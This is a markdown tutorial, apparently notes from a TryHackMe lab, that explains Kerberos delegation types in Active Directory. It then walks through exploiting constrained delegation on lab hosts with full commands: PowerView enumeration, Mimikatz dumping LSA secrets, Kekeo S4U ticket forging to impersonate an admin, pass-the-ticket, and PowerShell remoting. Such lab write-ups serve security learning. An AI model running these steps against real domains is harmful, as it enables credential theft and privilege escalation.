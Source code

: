 # Kerberos Delegation

Kerberos Delegation in Active Directory (AD) allows an application to access resources hosted on a different server on behalf of a user. This is commonly used, for example, when a web server needs to access a SQL database on another server. Instead of giving the service account direct access to the database, delegation allows the service account to request access on behalf of the user, ensuring users only access data they have permissions for.

---

## Types of Kerberos Delegation

### 1. Unconstrained Delegation

- **Description:** The original and least secure form of delegation. Any service ticket presented to a host with unconstrained delegation allows that host to impersonate the user to any service.
- **Risk:** If an attacker compromises a host with unconstrained delegation, they can intercept ticket-granting tickets (TGTs) and impersonate privileged users.
- **Example:** If a privileged account authenticates to a compromised host, the attacker can extract the TGT and use it elsewhere.

### 2. Constrained Delegation

- **Description:** Introduced by Microsoft in 2003 to limit which services an account can delegate to.
- **Configuration:** Only specific services (e.g., HTTP, CIFS, LDAP, HOST, MSSQL) can be delegated.
- **Security:** Reduces risk by limiting exposure if an account is compromised.
- **Exploitation:** If an attacker compromises an account with constrained delegation, they can generate a TGT and request service tickets (TGS) for allowed services, impersonating other users.

### 3. Resource-Based Constrained Delegation (RBCD)

- **Description:** Introduced in 2012, RBCD allows the service itself to specify which accounts can delegate to it, rather than specifying delegation on the account.
- **Configuration:** Set via the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute.
- **Advantage:** Service owners control who can delegate access, providing more granular security.

---

## Exploiting Constrained Delegation

### Enumeration

Use PowerView to enumerate accounts trusted for delegation:

```powershell
Import-Module C:\Tools\PowerView.ps1
Get-NetUser -TrustedToAuth
```

Suppose the output shows `svcIIS` can delegate to HTTP and WSMAN services on `THMSERVER1`. PowerShell Remoting uses these services, so impersonating a privileged user (e.g., a Tier 1 Admin) could provide administrative access.

### Dumping Credentials

If you have admin access on a host running as `svcIIS`, dump LSASecrets using Mimikatz:

```cmd
C:\> C:\Tools\mimikatz_trunk\x64\mimikatz.exe

mimikatz # token::elevate
mimikatz # lsadump::secrets
```

Look for credentials for the `svcIIS` account.

### Performing the Attack

1. **Generate a TGT with Kekeo:**

    ```cmd
    kekeo # tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:<password>
    ```

2. **Forge TGS requests for the target user and services:**

    ```cmd
    kekeo # tgs::s4u /tgt:<TGT_FILE> /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc
    kekeo # tgs::s4u /tgt:<TGT_FILE> /user:t1_trevor.jones /service:wsman/THMSERVER1.za.tryhackme.loc
    ```

3. **Import the TGS tickets with Mimikatz:**

    ```cmd
    mimikatz # privilege::debug
    mimikatz # kerberos::ptt <TGS_HTTP_FILE>
    mimikatz # kerberos::ptt <TGS_WSMAN_FILE>
    ```

4. **Create a PowerShell session as the impersonated user:**

    ```powershell
    New-PSSession -ComputerName thmserver1.za.tryhackme.loc
    Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
    whoami
    ```

    Output should confirm access as the impersonated user (e.g., `za\t1_trevor.jones`).

---

With successful exploitation of constrained delegation, you gain privileged access to the target server.

